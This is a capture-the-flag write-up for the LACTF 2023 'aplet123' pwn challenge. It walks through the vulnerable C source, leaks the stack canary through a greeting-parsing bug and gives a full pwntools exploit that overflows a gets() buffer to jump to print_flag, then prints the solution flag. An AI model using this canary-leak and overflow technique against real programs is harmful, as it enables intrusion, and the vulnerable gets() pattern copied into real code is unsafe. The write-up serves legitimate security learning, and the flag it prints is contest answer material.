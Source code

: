 # LACTF 2023

## aplet123

> bliutech: Can we get ApletGPT?
> me: No we have ApletGPT at home.
> ApletGPT at home:
> 
> Author: kaiphait
> 
> [`Dockerfile`](Dockerfile)
> [`aplet123.c`](aplet123.c)
> [`aplet123`](aplet123)

Tags: _pwn_

## Solution
As this is a pwn challenge, first of all, lets see what security measurements are given for the challenge binary.

```bash
$ checksec ./aplet123
[*] '/home/ctf/aplet123'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Keeping this in mind, we check out the source code. The main is small and there is a `print_flag` function, that is never called. This must be a [`ret2win`](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) challenge. We also have a buffer overflow, as `gets(input)` is basically unbounded. But since [`stack canaries`](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stacks_that_grow_up) are active, we cannot simply overflow and rewrite the return address.

```c
void print_flag(void) {
  char flag[256];
  FILE *flag_file = fopen("flag.txt", "r");
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
}

// ...

int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}
```

Meaning, we need to leak the canary somehow. And thankfully we just have the tool: the program has some logic to `greet the user`, if the user input contains `i'm` the program sets the pointer to the position where `i'm` was found plus 4 (assuming there is a space before the user name starts). This of course has all kinds of issues, there must not be a space or the user could omit the name alltogether. 

But for us it's a good thing, since we can leak the canary this way. How you might ask? Lets have a look how the stack is layed out here.

```
higher addresses
^
.
.
       RBP+08  Return Address
RBP ->         Saved RBP
       RBP-08  local_10
       RBP-80  local_58
       RBP-88  local_60
RSP -> RBP-96
.
.
v
lower addresses
```

We want to override the return address at `rbp+8`. The cookie is located at `rbp-8` (`local_10`) and our user input goes to `local_58` at `rbp-80`. From this we know our buffer is `72 bytes` in size. If we align our `i'm` to be at the end of our buffer, then `printf("hi %s, i'm aplet123\n", s + 4);` would just print the stack cookie for us, since the increment by 4 will point just after our buffer ends.

With the canary saved we are finally able to overflow the buffer and rewrite the return address with keeping the canary intact. The only thing left then is to cause the program to end itself, this can be done by just sending `bye`.

```python
from pwn import *

#p = process("./aplet123")
p = remote("chall.lac.tf", 31123)
binary = ELF("./aplet123")

buffer_size = 72

# send greeting marker aligned to end of buffer to trigger canary leak
p.sendline(flat({buffer_size-3: b"i'm"}))

# read leaked canary
p.recvuntil(b"hi ")
canary = p.recv(7)
canary = int.from_bytes(b"\0" + canary, 'little')
print("canary found:", hex(canary))

# now we overflow the buffer to override the return address
# taking care the canary stays intact
payload = flat({
    buffer_size     : p64(canary),
    buffer_size + 8 : p64(0),
    buffer_size + 16: p64(binary.sym.print_flag)
})
p.sendline(payload)

# exit the program now to let it jump back to 'print_flag'
p.sendline(b"bye")

p.recvuntil(b"bye")

print("found flag: ", p.recvall().decode())
```

Flag `lactf{so_untrue_ei2p1wfwh9np2gg6}`